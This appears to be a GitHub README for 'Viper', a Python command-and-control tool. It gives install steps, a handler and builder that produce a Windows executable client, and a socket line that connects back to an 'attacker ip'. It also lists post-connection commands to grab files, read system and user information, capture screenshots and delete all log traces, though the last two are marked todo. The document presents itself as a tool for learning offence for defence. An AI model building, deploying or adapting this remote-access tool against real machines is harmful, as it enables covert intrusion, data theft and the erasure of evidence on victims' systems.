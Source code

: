 
Copyright © 2017, [Jinverar owner of black signals](https://github.com/jinverar).
//=> Copyright (c) 2017 jinverar

***VIPER***

"""
This is viper and designed to control remote fangs that get deployed on computers in defense of exploitation frameworks!
Viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information. 
The viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensible actions.
This also has team server capabilities *Still working out bugs

This program was created as a basic function to reach out and grab things fast! Powered by twisted python. 

I have recently added a twisted webserver and chat server for teamdevops

viper has been tested on kali 2.0

***The installer.sh will do this for you***

usage
chmod +x installer.sh
./installer.sh
The installer will back up your ~/.bashrc file and This should do the tricks and get you up and running. 
You will need to verify the installer adds the python path to the end of the ~/.bashrc

Quick help
echo export PYTHONPATH="" >> ~/.bashrc
source ~/.bashrc

***libraries installed and current requirements check install.sh for mods***
python-twisted +16.6;
PyCrypto;
pyOpenSSl;
Zope interface;
python 2.7;
python-2.7.13.msi;
pyinstaller-3.1.1;
future-0.16.0;
wine;
winetricks;

Usage:

***to start the viper console:***

Navigate into the payloads and change the ip address and port number inside the client

$$> chmod +x start-teamserver.sh
$$> ./start-teamserver.sh

***usage:***

start the handler first and then start the client on the target machine

viper main commands:

[*] handler ========= > "starts the viper server and waits for a call back" 

[*] buildfang ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 

[*] chatserver ========= > will start your chat server on port 8123. You will have to open a new terminal to connect

[*] stopchat ========= > will tear down the chat server when needed

[*] startweb ========= > starts the webserver

[*] stopweb ========= > stops the webserver


***build fang pre-instructions***

Inside viper client modify these two lines with your local ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(('address you want to connect back to, attacker ip', 8081))


***viper connection commands:***

use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

[*] grab*<filename> ========= > grabs the file and saves it to the local desktop as .txt";

[*] getenv       ========= >  prints the system information";

[*] getuid       ========= > Get the user level access of the shell";

[*] SystemInfo   ========= > Get Fingerprint of the system"; todo

[*] capture      ========= > take images of the host machine "; todo

[*] Cover        ========= > Delete all traces of logs"; todo


Contributing

    Fork it!
    Create your feature branch: git checkout -b my-new-feature
    Commit your changes: git commit -am 'Add some feature'
    Push to the branch: git push origin my-new-feature
    Submit a Pull Request

